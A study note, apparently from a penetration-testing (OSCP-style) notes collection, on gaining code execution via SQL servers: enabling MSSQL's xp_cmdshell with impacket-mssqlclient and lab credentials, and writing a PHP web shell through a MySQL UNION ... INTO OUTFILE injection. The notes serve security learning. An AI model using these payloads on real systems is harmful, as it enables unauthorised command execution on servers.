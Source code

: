 # Manual Code Execution
Depending on how the SQL server is configured on a target, we can use it to *achieve code execution*. For example, in [MSSQL](../../../CLI-tools/windows/MSSQL.md) servers the `xp_cmdshell` function takes a string and passes it to a command shell for execution. Any output returned from the shell is returned by MSSQL as rows or text. Usually, it is disabled by default. But once it's enabled, it can called in a SQL query by using the `EXECUTE` keyword.
## In MSSQL
To enable `xp_cmdshell`, we can use the `impacket-mssqlclient` tool. Once we're connected to the target MSSQL server, we can give the following command query:
```sql
> EXECUTE sp_configure 'show advanced options', 1;


INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
```
`sp_configure` is another MSSQL command ('procedure') which displays global configuration settings for the current server. You can use it to view options or modify settings. Additionally, you can give it `1` or `0` as a parameter to enable or disable specific commands:
```sql
-- Use sp_configure to enable "show advanced options"
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use sp_configure to enable "xp_cmdshell"
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use RECONFIGURE to apply the changes:
SQL> RECONFIGURE;
```
Once a change is made, run `RECONFIGURE` to apply it. Now we can execute any Windows shell command we want.
## In MySQL
Unlike MSSQL, [MySQL](../../../CLI-tools/linux/mysql.md) does not have something like `xp_cmdshell` to execute commands. Instead, we can abuse the `INTO_OUTFILE` statement to write files to the vulnerable web server. For this to work, the user running the MySQL instance *has to have write permission* to the file's location. 
### Using `UNION` & `INTO OUTFILE` to write a web shell
We can use the [UNION keyword](../../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md#UNION%20keyword) to write a [web-shell](../../../cybersecurity/TTPs/exploitation/web-shell.md) to disk. For this example to work, the web application needs to be vulnerable to a UNION attack *AND* be running [PHP](../../../coding/languages/PHP.md). If by investigating the UNION attack we've discovered that the output returned from the vulnerable SQL query includes 5 columns, then we can use `UNION SELECT` to inject PHP script using one of the joined columns.

Then we can use `USE OUTFILE` to create the file we want to write the PHP code into:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The resulting `webshell.php` file would contain this:
```php
<? system($_REQUEST ['cmd']); ?>
```
In this code, the `system` function parses the statement given to it (via the `cmd` parameter) coming from the client's [HTTP](../../../www/HTTP.md) request. This should create an *interactive* web command shell for us. 
### Executing the webshell
Now that our file is written to disk, we can try accessing it by simply navigating to it in the browser (since we wrote it to the web server's root):
![](../../oscp-pics/SQLi-1.png)


> [!Resources]
> - [W3 Schools: MySQL IF() Function](https://www.w3schools.com/sql/func_mysql_if.asp)
> - [Beagle Security: Time Based SQLi](https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.